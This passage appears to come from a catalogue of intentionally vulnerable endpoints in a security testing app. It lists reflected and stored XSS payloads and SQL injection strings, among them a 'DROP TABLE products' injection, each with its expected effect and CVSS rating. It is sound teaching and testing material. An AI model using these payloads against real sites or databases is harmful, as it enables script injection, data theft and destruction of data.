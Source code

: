 #### 2. Attribute Context Injection
- **Endpoint**: `GET /profile?name=<payload>`
- **Vulnerability**: Reflected XSS in HTML attribute
- **Context**: HTML attribute value
- **Test Payloads**:
  ```html
  "><script>alert('XSS')</script>
  " onmouseover="alert('XSS')
  '><img src=x onerror=alert('XSS')>
  ```
- **Expected Behavior**: Payload breaks out of attribute and executes
- **Severity**: LOW (CVSS 2.4)

#### 3. JavaScript String Context Injection
- **Endpoint**: `GET /script?msg=<payload>`
- **Vulnerability**: Reflected XSS in JavaScript string
- **Context**: JavaScript string literal
- **Test Payloads**:
  ```javascript
  ";alert('XSS');//
  ';alert('XSS');//
  </script><script>alert('XSS')</script>
  ```
- **Expected Behavior**: Payload breaks out of JS string and executes
- **Severity**: LOW (CVSS 2.4)

### **XSS (Cross-Site Scripting) - Stored**

#### 4. Stored XSS in Notes
- **Endpoint**: `POST /notes` (form: content)
- **Vulnerability**: Stored XSS in notes content
- **Context**: Unsanitized content storage and display
- **Test Payloads**:
  ```html
  <script>alert('Stored XSS')</script>
  <img src=x onerror=alert('Stored XSS')>
  <iframe src="javascript:alert('Stored XSS')"></iframe>
  ```
- **Expected Behavior**: Payload stored and executed when viewing notes
- **Severity**: MEDIUM (CVSS 4.3)

### **SQL Injection**

#### 5. Error-Based SQL Injection
- **Endpoint**: `GET /product?id=<payload>`
- **Vulnerability**: Error-based SQL injection
- **Context**: Integer parameter in WHERE clause
- **Test Payloads**:
  ```sql
  1 OR 1=1
  1' OR '1'='1
  1; DROP TABLE products--
  1' UNION SELECT NULL--
  ```
- **Expected Behavior**: SQL errors exposed or data manipulation
- **Severity**: MEDIUM (CVSS 6.8)
